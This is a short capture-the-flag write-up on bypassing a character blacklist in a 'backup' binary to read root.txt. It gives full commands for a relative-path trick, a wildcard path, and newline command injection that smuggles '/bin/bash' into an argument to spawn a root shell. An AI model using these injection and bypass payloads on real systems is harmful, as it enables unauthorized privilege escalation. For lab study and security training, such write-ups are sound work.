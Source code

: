 # Unintended way to get root.txt

After we know that there are blacklisted characters on the _backup_ binary, we can bypass these with different methods.

### Method 1 - Using relative paths

When changing the directory to _/_ and execute the command again from there because it uses a **relative path** and bypasses the backslash character:
```markdown
backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 root
```

This outputs a Base64-decoded string that we can decode and get ZIP archived data which we can unzip with the password from before and we get all files from the root directory!

### Method 2 - Using wildcards

When using **wildcard characters** it bypasses the blacklist:
```markdown
backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r??t/roo?.txt
```

This outputs a Base64-decoded string that we can decode and get ZIP archived data which we can unzip with the password from before and we get root.txt!

### Method 3 - Command Injection

When inputting a **newline** at the third parameter and executing a command between the **newlines**:
```markdown
backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "test
\> /bin/bash
\> test"
```

This also works:
```markdown
backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "$(printf 'aaa\n/bin/bash\nbbb')
```

This instantly spawns a root shell!
